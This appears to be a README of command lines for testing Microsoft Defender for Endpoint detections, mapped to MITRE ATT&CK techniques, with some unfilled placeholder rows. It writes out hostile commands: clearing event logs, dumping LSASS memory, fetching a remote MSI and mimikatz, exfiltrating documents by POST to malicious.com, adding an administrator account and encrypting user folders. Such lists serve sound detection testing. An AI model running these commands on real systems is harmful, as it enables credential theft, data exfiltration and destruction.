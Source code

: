 # Command lines for MDE

Below are some of the command lines that can be used to evaluate MDE (Microsoft defender for Endpoint).

| Name  | Command               |
|----------|---------------------------|
| Clean Windows Event logs | `wevtutil cl system` <br> `wevtutil cl application` <br> `wevtutil cl security`   |
| create a scheduled task | `schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt" `    |
| use of living off the land binary to run malicious code | `msiexec /q /i https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true `   |
| Encode Certutil and decode | `copy %windir%\system32\certutil.exe %temp%\tcm.tmp` <br> `%temp%\tcm.tmp -encode C:\Windows\System32\calc.exe %temp%\T1140_calc2.txt`<br> `%temp%\tcm.tmp -decode %temp%\T1140_calc2.txt %temp%\T1140_calc2_decoded.exe`   |
| Dump LSASS.exe memory using comsvcs.dll | `C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full`   |
| Network Protection Command and Control | `Invoke-WebRequest -URI https://commandcontrol.smartscreentestratings.com`   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |

## MITRE Related Commands

| Tactic             | Technique ID | Technique Name                     | Command Line Example                                                                 |
|--------------------|--------------|------------------------------------|--------------------------------------------------------------------------------------|
| Initial Access     | T1078        | Valid Accounts                     | `net user testuser Password123! /add` <br> `net localgroup administrators testuser /add` |
| Execution          | T1059        | Command and Scripting Interpreter  | `powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Write-Host 'Hello, World!'"` <br> `cmd.exe /c echo Hello, World!` |
| Persistence        | T1053        | Scheduled Task/Job                 | `schtasks /create /tn "TestTask" /tr "cmd.exe /c echo Hello World > C:\temp\test.txt" /sc daily /st 12:00` |
| Privilege Escalation | T1548      | Abuse Elevation Control Mechanism  | `Start-Process cmd -Verb runAs`                                                      |
| Defense Evasion    | T1112        | Modify Registry                    | `reg add HKEY_CURRENT_USER\Software\Test /v TestValue /t REG_SZ /d "Test Data"`       |
| Credential Access  | T1003        | OS Credential Dumping              | `Invoke-WebRequest -Uri "http://example.com/mimikatz.exe" -OutFile "C:\temp\mimikatz.exe"` |
| Discovery          | T1082        | System Information Discovery       | `systeminfo`                                                                         |
| Lateral Movement   | T1021        | Remote Services                    | `mstsc /v:192.168.1.10`                                                              |
| Collection         | T1119        | Automated Collection               | `copy C:\Users\*\Documents\*.docx C:\temp\collection\`                                |
| Exfiltration       | T1041        | Exfiltration Over C2 Channel       | `Invoke-WebRequest -Uri "http://malicious.com/upload" -Method Post -InFile "C:\temp\collection\*.docx"` |
| Impact             | T1486        | Data Encrypted for Impact          | `cipher /e /s:C:\Users\*`                                                            |






## References

1. [RedCanary](https://github.com/redcanaryco/invoke-atomicredteam/wiki/Installing-Invoke-AtomicRedTeam)
   
3. [jeffreyappel Blog](https://jeffreyappel.nl/microsoft-defender-for-endpoint-series-validate-defender-protection-and-additional-troubleshooting-part6/)
